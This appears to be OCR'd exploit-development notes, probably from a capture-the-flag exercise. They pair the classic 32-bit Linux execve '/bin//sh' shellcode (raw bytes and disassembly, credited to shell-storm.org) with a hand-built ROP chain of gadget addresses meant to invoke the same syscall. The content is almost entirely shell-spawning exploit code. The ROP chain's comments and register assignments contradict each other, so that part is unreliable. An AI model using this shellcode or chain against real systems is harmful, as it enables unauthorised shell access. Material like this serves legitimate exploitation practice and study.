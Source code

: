# execve ROP
### execve 32bit linux from shell-storm.org

    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

    xor    %eax,%eax
    push   %eax
    push   $0x68732f2f
    push   $0x6e69622f
    mov    %esp,%ebx
    push   %eax
    push   %ebx
    mov    %esp,%ecx
    mov    $0xb,%al
    int    $0x80

## My ROP:
    0x80e4809 - pop eax ; ret
    === data on stack ====
    0xb - syscall number pops into eax
    ======================
    0x80bcc84 - pop ebx ; ret
    === data on stack ====
    leak some str addr and put it here
    ======================
    0x80bcc84 - pop ebx ; ret
    === data on stack ====
    0xb - poping the syscall number into ebx
    ======================
    0x080e71c5 - pop ecx ; ret
    === data on stack ====
    0x0 - zeroing edx because we dont really need it
    ======================
    0x0806f22a - pop edx ; ret
    === data on stack ====
    0x0 - zeroing edx because we dont really need it
    ======================
    0x08048ef6 - int 80 ; no-ret